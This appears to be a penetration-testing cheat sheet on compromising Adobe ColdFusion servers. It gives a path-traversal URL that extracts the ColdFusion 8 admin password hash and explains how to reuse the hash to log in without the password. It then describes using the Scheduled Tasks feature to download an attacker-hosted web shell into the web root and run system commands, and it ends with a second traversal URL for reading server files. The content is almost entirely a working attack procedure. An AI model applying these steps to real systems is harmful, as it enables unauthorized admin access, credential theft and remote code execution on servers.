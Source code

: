 #Coldfusion
Check for the existance of the admin console **/CFIDE/administrator/index.cfm**

Then check for the version.  If it's coldfusion 8 you  can get the admin hash using:
**/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en**

Replace
**hex_hmac_sha1(cfadminPassword.value)**
With the fields below where THE_HASH is the hash you received from the lfi vulnerability above.
**hex_hmac_sha1(salt.value, 'THE_HASH')**

Next find the full file path from **Settings Summary**
Then schedule a task to download a ColdFusion web shell into the web directory using the
**Scheduled Tasks** feature.
Go to **/usr/share/webshell/cfm** and host a file
In the schedule tasks set the url to the cfm url **<address>/cfexec.cfm**
Click the run button to execute the task
Then go to **<address>/cfexec.cfm**
Set the command to **cmd**
Options **/c whoami**
And timeout to a few seconds

### ColdFusion9,8 and earlier path traversal debugging
```
/CFIDE/debug/cf_debugFr.cfm?userPage=../../../etc/hosts
```
